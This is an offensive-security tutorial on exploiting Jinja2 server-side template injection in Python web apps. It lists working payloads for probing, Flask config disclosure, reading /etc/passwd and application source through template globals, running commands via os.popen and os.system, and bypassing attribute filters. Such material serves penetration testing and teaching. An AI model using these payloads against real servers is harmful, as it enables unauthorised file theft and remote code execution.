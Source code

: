 ```yaml
---
title: Jinja2 Exploitation for SSTI Vulnerabilities
description: Explore Jinja2 SSTI vulnerabilities for file read and RCE in Python apps.
keywords:
- Jinja2
- SSTI
- Python
- remote code execution
- template engine
- web security
- file read
---
```


# Jinja2 Exploitation

## Context

Jinja2 is a popular template engine for Python, commonly used in web frameworks like Flask. This article focuses on leveraging Jinja2's Server-Side Template Injection (SSTI) vulnerabilities to exploit Python web applications. By the end, you'll be equipped to perform file reads and execute remote code, assuming a solid understanding of template engines, Python programming, web application architecture, and SSTI concepts.

## Theory

### Jinja2 Template Engine Internals

Jinja2 is a powerful template engine for Python that allows developers to embed logic and dynamically render web content. It processes templates using a context, which can include both static and user-supplied data. If input is not adequately sanitized, this feature can be manipulated to achieve code execution.

When attacker-controlled input is directly rendered, it may be evaluated as a Jinja2 template expression, leading to code execution vulnerabilities. This creates an attack surface ripe for exploitation.

### Accessing Python Internals via Jinja2

Jinja2 provides pathways to Python's internals through template expressions, allowing attackers to potentially access sensitive Python objects and methods. Attackers can chain attribute accessors to traverse object properties and reach sensitive components, such as `__globals__`. Crafting these chains carefully allows the circumvention of basic input filtering, such as using `[].__class__.__base__`.

### Jinja2 Remote Code Execution (RCE) Pathways

Attackers exploit Jinja2 by escalating from template variable manipulation to arbitrary code execution. This relies on accessing built-in Python functions within the template context, such as `os.popen` or `subprocess`, which offers command execution capabilities. Successful exploitation requires access to these or similar attributes.

### File Read via Jinja2 Injection

Jinja2's template context can be leveraged to read files from the server. By accessing file manipulation functions like `open()` through a Jinja2 injection, attackers can read sensitive server files. Exploiting this requires the template context to expose Python's file operation methods or allow the import of modules containing such methods.

## Practice

### Enumerate Jinja2 Injection and Context Exposure

Start by confirming the presence of a Jinja2 injection vulnerability and identifying exposed contexts:

- Use the payload `{{7*7}}` to test whether arbitrary expressions are evaluated. A return value of `49` confirms that injection is possible.
- Attempt to access configuration items with `{{config.items()}}`. This payload can reveal Flask's configuration if included within the template context.
- Enumerate available classes using `{{ [].__class__.__base__.__subclasses__() }}`, providing visibility into exploitable Python subclasses.

Outcome: Discover vulnerable injection points and assess accessible Python objects.

### File Read via Jinja2 Injection

Read server files using Jinja2's template context access:

- Execute `{{ cycler.__init__.__globals__.open('/etc/passwd').read() }}` to read the `/etc/passwd` file leveraging `open()` from `cycler`'s `__globals__`.
- Attempt to retrieve application source files with `{{ joiner.__init__.__globals__.open('app.py').read() }}` to view source code if accessible.

Outcome: Access and read sensitive data from the server's filesystem.

### Remote Code Execution via Jinja2 Injection

Achieve remote code execution by exploiting Jinja2 template injection:

- Execute system commands like `{{ cycler.__init__.__globals__.os.popen('id').read() }}` to obtain the user ID executing the application.
- Confirm execution context permissions using `{{ joiner.__init__.__globals__.os.popen('whoami').read() }}`.
- Test command execution efficacy with `{{ namespace.__init__.__globals__.os.system('touch /tmp/pwned') }}`, creating a file to prove execution.

Outcome: Gain remote code execution on the server, allowing arbitrary command execution.

### Bypass Attribute Filtering in Jinja2

Circumvent filtered attributes to aid in exploitation:

- Refer to the earlier section on subclass enumeration (line 48) for techniques like `{{ [].__class__.__base__.__subclasses__() }}` and `{{ ''.__class__.__mro__[1].__subclasses__() }}` to bypass attribute filtering and access file or OS-related classes.

Outcome: Navigate around input validation restrictions to access protected Python internals.

## Tools

- **Burp Suite**
- **curl**
- **wfuzz**